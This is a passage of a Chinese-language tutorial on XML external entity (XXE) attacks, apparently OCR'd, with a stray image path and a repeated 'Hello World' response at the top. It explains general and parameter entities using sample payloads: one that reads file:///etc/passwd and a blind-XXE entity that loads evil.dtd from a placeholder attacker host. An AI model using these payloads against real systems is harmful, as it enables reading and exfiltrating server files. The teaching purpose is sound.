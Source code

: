 response:

```xml-dtd
HTTP/1.0 200 OK
 
Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World
```

0x3):外部**普通实体**

​    外部实体用于加载外部文件的内容。(显示XXE攻击主要利用普通实体)

​    外部普通实体语法：

​    *`<!ENTITY 实体名称 SYSTEM "URI/URL"`*

如：

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</xxe>
```



```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root>
```

0x4):外部**参数实体**

```xml
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI">
```



​    参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符(;)结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。(Blind XXE攻击常利用参数实体进行数据回显)

示例：

1

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo>
```

外部evil.dtd中的内容。
